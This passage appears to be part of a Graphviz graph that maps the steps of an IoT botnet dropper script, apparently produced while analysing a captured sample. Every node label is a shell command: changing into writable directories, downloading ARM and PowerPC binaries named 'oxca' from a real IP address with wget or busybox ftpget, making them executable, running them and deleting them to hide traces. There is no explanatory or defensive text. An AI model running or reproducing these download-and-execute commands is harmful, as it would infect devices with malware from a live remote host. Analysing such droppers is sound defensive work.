1908 [label=" /bin/busybox cd /tmp"];
1908 -> 1913;
1908 -> 1933;
1913 [label=" /bin/busybox cd /var/run"];
1913 -> 1918;
1913 -> 1933;
1918 [label=" /bin/busybox cd /mnt"];
1918 -> 1923;
1918 -> 1933;
1923 [label=" /bin/busybox cd /root"];
1923 -> 1928;
1923 -> 1933;
1928 [label=" /bin/busybox cd /"];
1928 -> 1933;
1933 [label=" /bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.arm41 oxca.arm41"];
1933 -> 1947;
1947 [label=" /bin/busybox chmod +x oxca.arm41 ./oxca.arm41"];
1947 -> 1954;
1954 [label=" /bin/busybox rm -rf oxca.arm41"];
1954 -> 1960;
1960 [label=" cd /tmp"];
1960 -> 1964;
1960 -> 1980;
1964 [label=" cd /var/run"];
1964 -> 1968;
1964 -> 1980;
1968 [label=" cd /mnt"];
1968 -> 1972;
1968 -> 1980;
1972 [label=" cd /root"];
1972 -> 1976;
1972 -> 1980;
1976 [label=" cd /"];
1976 -> 1980;
1980 [label=" wget http://185.158.112.178/oxca.arm51"];
1980 -> 1984;
1984 [label=" chmod +x oxca.arm51"];
1984 -> 1989;
1989 [label=" ./oxca.arm51"];
1989 -> 1992;
1992 [label=" rm -rf oxca.arm51"];
1992 -> 1997;
1997 [label=" cd /tmp"];
1997 -> 2001;
1997 -> 2017;
2001 [label=" cd /var/run"];
2001 -> 2005;
2001 -> 2017;
2005 [label=" cd /mnt"];
2005 -> 2009;
2005 -> 2017;
2009 [label=" cd /root"];
2009 -> 2013;
2009 -> 2017;
2013 [label=" cd /"];
2013 -> 2017;
2017 [label=" ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.arm51 oxca.arm51"];
2017 -> 2030;
2030 [label=" chmod +x oxca.arm51 ./oxca.arm51"];
2030 -> 2036;
2036 [label=" rm -rf oxca.arm51"];
2036 -> 2041;
2041 [label=" /bin/busybox cd /tmp"];
2041 -> 2046;
2041 -> 2066;
2046 [label=" /bin/busybox cd /var/run"];
2046 -> 2051;
2046 -> 2066;
2051 [label=" /bin/busybox cd /mnt"];
2051 -> 2056;
2051 -> 2066;
2056 [label=" /bin/busybox cd /root"];
2056 -> 2061;
2056 -> 2066;
2061 [label=" /bin/busybox cd /"];
2061 -> 2066;
2066 [label=" /bin/busybox wget http://185.158.112.178/oxca.arm51"];
2066 -> 2071;
2071 [label=" /bin/busybox chmod +x oxca.arm51"];
2071 -> 2077;
2077 [label=" ./oxca.arm51"];
2077 -> 2080;
2080 [label=" /bin/busybox rm -rf oxca.arm51"];
2080 -> 2086;
2086 [label=" /bin/busybox cd /tmp"];
2086 -> 2091;
2086 -> 2111;
2091 [label=" /bin/busybox cd /var/run"];
2091 -> 2096;
2091 -> 2111;
2096 [label=" /bin/busybox cd /mnt"];
2096 -> 2101;
2096 -> 2111;
2101 [label=" /bin/busybox cd /root"];
2101 -> 2106;
2101 -> 2111;
2106 [label=" /bin/busybox cd /"];
2106 -> 2111;
2111 [label=" /bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.arm51 oxca.arm51"];
2111 -> 2125;
2125 [label=" /bin/busybox chmod +x oxca.arm51 ./oxca.arm51"];
2125 -> 2132;
2132 [label=" /bin/busybox rm -rf oxca.arm51"];
2132 -> 2138;
2138 [label=" cd /tmp"];
2138 -> 2142;
2138 -> 2158;
2142 [label=" cd /var/run"];
2142 -> 2146;
2142 -> 2158;
2146 [label=" cd /mnt"];
2146 -> 2150;
2146 -> 2158;
2150 [label=" cd /root"];
2150 -> 2154;
2150 -> 2158;
2154 [label=" cd /"];
2154 -> 2158;
2158 [label=" wget http://185.158.112.178/oxca.ppc440"];
2158 -> 2162;
2162 [label=" chmod +x oxca.ppc440"];
2162 -> 2167;
2167 [label=" ./oxca.ppc440"];
2167 -> 2170;
2170 [label=" rm -rf oxca.ppc440"];
2170 -> 2175;
2175 [label=" cd /tmp"];
2175 -> 2179;
2175 -> 2195;
2179 [label=" cd /var/run"];
2179 -> 2183;
2179 -> 2195;
2183 [label=" cd /mnt"];
2183 -> 2187;
2183 -> 2195;
2187 [label=" cd /root"];
2187 -> 2191;
2187 -> 2195;
2191 [label=" cd /"];
2191 -> 2195;
2195 [label=" ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.ppc440 oxca.ppc440"];
2195 -> 2208;
2208 [label=" chmod +x oxca.ppc440 ./oxca.ppc440"];
2208 -> 2214;
2214 [label=" rm -rf oxca.ppc440"];
2214 -> 2219;
2219 [label=" /bin/busybox cd /tmp"];
2219 -> 2224;
2219 -> 2244;
2224 [label=" /bin/busybox cd /var/run"];
2224 -> 2229;
2224 -> 2244;
2229 [label=" /bin/busybox cd /mnt"];
2229 -> 2234;
2229 -> 2244;
2234 [label=" /bin/busybox cd /root"];
2234 -> 2239;
2234 -> 2244;
2239 [label=" /bin/busybox cd /"];
2239 -> 2244;
2244 [label=" /bin/busybox wget http://185.158.112.178/oxca.ppc440"];
2244 -> 2249;
2249 [label=" /bin/busybox chmod +x oxca.ppc440"];
2249 -> 2255;
2255 [label=" ./oxca.ppc440"];
2255 -> 2258;
2258 [label=" /bin/busybox rm -rf oxca.ppc440"];
2258 -> 2264;
2264 [label=" /bin/busybox cd /tmp"];
2264 -> 2269;
2264 -> 2289;
2269 [label=" /bin/busybox cd /var/run"];
2269 -> 2274;
2269 -> 2289;
2274 [label=" /bin/busybox cd /mnt"];
2274 -> 2279;
2274 -> 2289;
2279 [label=" /bin/busybox cd /root"];
2279 -> 2284;
2279 -> 2289;
2284 [label=" /bin/busybox cd /"];
2284 -> 2289;
2289 [label=" /bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.ppc440 oxca.ppc440"];
2289 -> 2303;
2303 [label=" /bin/busybox chmod +x oxca.ppc440 ./oxca.ppc440"];
2303 -> 2310;
}
